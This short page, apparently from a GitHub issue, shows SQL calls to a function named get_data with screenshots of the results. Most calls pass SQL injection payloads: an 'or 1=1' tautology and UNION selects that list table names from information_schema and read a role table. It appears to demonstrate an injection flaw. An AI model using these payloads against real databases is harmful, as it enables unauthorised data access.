 ![image](https://user-images.githubusercontent.com/26124396/209003690-1df3e9cb-2256-4123-be3f-79c9adc3767c.png)

```sql
select *
from get_data('test');
```  

![image](https://user-images.githubusercontent.com/26124396/209004085-873a65d3-df48-4666-b9c5-1a9ec0a5c54c.png)

```sql
select *
from get_data('any'' or 1=1 -- ');
```  

![image](https://user-images.githubusercontent.com/26124396/209003935-1c2272a5-5bfc-4e09-8334-e265371e773c.png)

```sql
select *
from get_data('1'' union select -1,cast(table_name as varchar),0 from information_schema.tables -- ');
``` 

![image](https://user-images.githubusercontent.com/26124396/209167950-3f4f3e3f-18b5-4da4-a9ad-282800e661cb.png)
 
```sql
select *
from get_data('test'' union select -1, role_name, year from role2university --');
```  

![image](https://user-images.githubusercontent.com/26124396/209006110-9a8d281e-a926-417e-9af6-8601f11e88a4.png)

